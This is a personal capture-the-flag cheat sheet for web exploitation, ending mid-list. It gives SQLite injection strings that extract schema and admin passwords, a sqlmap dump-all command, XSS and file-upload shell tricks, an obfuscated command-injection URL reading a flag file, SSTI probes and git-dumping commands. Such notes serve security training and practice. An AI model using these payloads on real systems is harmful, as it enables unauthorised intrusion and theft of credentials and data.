 
### C) SQL-injection
- If the database is **sqlite**
	- a' || (select sqlite_version()));--
	- a' || (select sql from sqlite_master));--
	- a' || (select password from xde43_users where role="admin"));--
- Try to inject on the **id** parameter
- When you get errors like "HY000 1 unrecognized token: "'" "
	- Try to use sqlmap  =>  sqlmap -u link --dump-all
### D) XSS
- Use <img\> tags rather than <script\> U can upload svg file (image) then do xss with svg files
### E) Broken Access Control
- **changing** role of 'user' to 'admin' will give u the flag!
### F) Obfuscation
- Some websites give you JS code for hint and they will **Obfuscate** it so to decode that use
      - This site:  https://lelinhtinh.github.io/de4js/ 
        - ON THIS the obfuscation looks js code but it is human unreadable form.
    - If you see []+[][[+]}]... kind of obfuscate it is **JSFUCK**.
    - Another Site: http://www.jsnice.org/ 

### G) File Upload
- If the Uploaded file path *is known*
	- http://example.com/data/shell.pdf
	- **it wont run the php code, so try**
	- => http://example.com/index.php?data/shell.pdf
- When you inject on command those take user input(for files) remove the file.
	- `http://94.237.53.58:52296/index.php?to=opt||{c%22a%22t,${PATH:0:1}flag.txt}&from=51459716.txt&finish=1&move=1` <mark style="background: #FF5582A6;">This Doesnt work</mark>
	- `http://94.237.53.58:52296/index.php?to=||{c%22a%22t,${PATH:0:1}flag.txt}&from=51459716.txt&finish=1&move=1` <mark style="background: #BBFABBA6;">This works</mark>
	- That is Because the `?to=` on the first have foldername

### H) Host Headers
    - If the hint have language staff
      - change the accept-language to the hints.

### I) SSTI
Identifying the template engine involves analyzing error messages or manually testing various language-specific payloads. Common payloads causing errors include `${7/0}`, `{{7/0}}`, and `<%= 7/0 %>`.
>[!success] testing payload ` ${{<%[%'"}}%\ `

Observing the server's response to mathematical operations helps pinpoint the specific template engine.
## Intercepting Requests.
- If you have programs those are made with some kinds express or node, they will send web requests so,
	- You can intercept and watch it on `BURPSUITE` too.
- If the program sends LDAP or another requests u need wireshark.
## Git CTF
- get the .git link
- download it with gitdumper.sh
	  `gitdumper.sh http://167.99.135.253/.git clone-folder`
- extract the main file with extractor.sh
	  `extractor.sh clone-folder pre`
- Go to the pre folder and check if there is flag or username,password
- to download all files of git recursively
	  `wget -r http://web.com/.git`
- if there is any commit